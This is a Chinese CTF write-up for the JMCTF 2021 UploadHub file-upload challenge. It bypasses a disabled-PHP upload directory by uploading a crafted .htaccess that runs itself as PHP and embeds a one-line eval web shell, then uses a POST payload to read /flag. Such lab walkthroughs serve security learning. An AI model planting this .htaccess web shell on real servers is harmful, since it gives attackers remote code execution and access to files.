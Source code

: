 ```yaml
---
title: '[JMCTF 2021]UploadHub'
date: 2024-11-12 15:50:44
tags:
      - 文件上传
categories: 刷题笔记
---
```


## [JMCTF 2021]UploadHub

我们首先尝试上传一句话木马，发现网页并没有执行一句话木马

![image-20241112162009081](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411121620176.png)

我们查看配置文件，发现

```
php_flag engine off<Directory ~ "/var/www/html/upload/[a-f0-9]{32}/">
        php_flag engine off
</Directory>
```

php_flag engine 设置为0，会关闭该目录和子目录的php解析

也就是说，整个目录都不会执行php的

我们可以上传.htaccess文件来修改配置

经师傅们测试发现<file>标签的优先级高于<directory>

```
<FilesMatch .htaccess>
SetHandler application/x-httpd-php 
Require all granted    #允许所有请求
php_flag engine on	  #开启PHP的解析
</FilesMatch>

php_value auto_prepend_file .htaccess 在主文件解析之前自动解析包含.htaccess的内容
#<?php eval($_POST['dmind']);?>

```

我们将其写入.htaccess文件中上传

**SetHandler和ForceType**

强制所有匹配的文件被一个指定的处理器处理 用法：

```
ForceType application/x-httpd-php
SetHandler application/x-httpd-php

那么这里就是将.htaccess文件解析为php
```

我们先查看phpinfo()

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/ab8f1125a24a7aa4d186f42fd5628fa1.png)

过滤了一堆函数，我们使用var_dump来获取flag数据

```
dmind=var_dump(file_get_contents("/flag"));
```

得到flag

![image-20241112195544202](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411121955349.png)
